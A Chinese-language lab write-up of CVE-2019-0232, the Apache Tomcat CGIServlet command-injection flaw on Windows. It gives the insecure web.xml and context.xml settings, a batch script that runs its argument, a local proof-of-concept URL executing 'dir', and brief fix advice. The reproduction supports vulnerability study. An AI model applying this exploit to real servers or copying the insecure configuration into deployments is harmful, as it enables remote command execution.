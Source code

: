 ### 0x00 简述

漏洞名称：RCE

漏洞编号：CVE-2019-0232 

漏洞影响：上传包含任意代码的文件，并被服务器执行。实际利用较鸡肋

影响平台：Windows且启用了CGIServlet和enableCmdLineArguments参数 

影响版本：Apache Tomcat  7.0.0 - 7.0.93 ；  8.5.0 - 8.5.39 ； 9.0.0.M1 - 9.0.17 

### 0x01 利用

 首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet： 

```xml
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet>
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用`cgi`的`servlet-mapping`

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping>
```

之后修改 `conf/context.xml` 的 添加 `privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个 w.bat 文件:

```bat
@echo off
echo Content-Type: text/plain
echo.
set foo=%~1
%foo%
```

配置完成后，启动tomcat，访问 `http://127.0.0.1:8080/cgi-bin/w.bat?dir` ，可以看到命令执行成功。

![1583316875535](images/1583316875535.png)

### 0x02 修复

- 升级
- 不轻易改变默认配置，非要改先搞清楚原理

### 0x03 参考链接

 https://www.freebuf.com/company-information/203128.html 